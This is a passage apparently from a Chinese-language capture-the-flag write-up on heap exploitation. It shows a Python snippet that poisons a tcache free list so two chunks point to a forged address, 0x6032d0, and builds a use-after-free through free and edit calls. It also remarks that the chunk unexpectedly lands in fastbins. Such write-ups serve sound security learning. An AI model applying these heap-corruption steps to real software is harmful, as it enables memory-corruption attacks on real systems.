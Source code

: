 
telescope查看 发现现在1号块和3号块指向的都是同样的内容，即0x6032d0，这是我们自己构造的。

![upload successful](/images/pasted-64.png)

这时又自己构造了uaf，因为free(1),edit(3) 就相当于这个块先free掉之后又被修改了。

```python
add(0,0x68)
add(1,0x68)
add(2,0x68)
free(0)
edit(0,0x20,p64(0x6032d0)+'\n')
add(0,0x68)
add(3,0x68)
free(1)
edit(3,0x10,'b'*0x10 + '\n')
pause()
```



但是这时神奇地发现，堆块没有到tcachebins中，而是到了fastbins中
